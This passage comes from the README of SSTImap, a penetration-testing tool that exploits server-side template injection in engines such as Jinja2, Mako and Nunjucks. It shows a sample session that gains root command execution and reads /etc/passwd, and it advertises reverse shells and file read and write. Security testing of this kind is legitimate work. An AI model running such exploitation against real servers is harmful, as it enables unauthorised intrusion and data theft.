 ```

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ whoami
root
posix-linux $ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

To get a full list of options, use `--help` argument.

Interactive mode
----------------

In interactive mode, commands are used to interact with SSTImap. To enter interactive mode, you can use `-i` argument. All other arguments, except for the ones regarding exploitation payloads, will be used as initial values for settings.

Some commands are used to alter settings between test runs. To run a test, target URL must be supplied via initial `-u` argument or `url` command. After that, you can use `run` command to check URL for SSTI.

If SSTI was found, commands can be used to start the exploitation. You can get the same exploitation capabilities, as in the predetermined mode, but you can use `Ctrl+C` to abort them without stopping a program.

By the way, test results are valid until target url is changed, so you can easily switch between exploitation methods without running detection test every time.

To get a full list of interactive commands, use command `help` in interactive mode.

Supported template engines
--------------------------

SSTImap supports multiple template engines and _eval()_-like injections.

New payloads are welcome in PRs.

| Engine                         | RCE | Blind | Code evaluation | File read | File write |
|--------------------------------|-----|-------|-----------------|-----------|------------|
| Mako                           | ✓   | ✓     | Python          | ✓         | ✓          |
| Cheetah                        | ✓   | ✓     | Python          | ✓         | ✓          |
| Jinja2                         | ✓   | ✓     | Python          | ✓         | ✓          |
| Python (code eval)             | ✓   | ✓     | Python          | ✓         | ✓          |
| Tornado                        | ✓   | ✓     | Python          | ✓         | ✓          |
| Nunjucks                       | ✓   | ✓     | JavaScript      | ✓         | ✓          |
| Pug                            | ✓   | ✓     | JavaScript      | ✓         | ✓          |

[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[5]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[6]: http://flask.pocoo.org/
[7]: http://jinja.pocoo.org/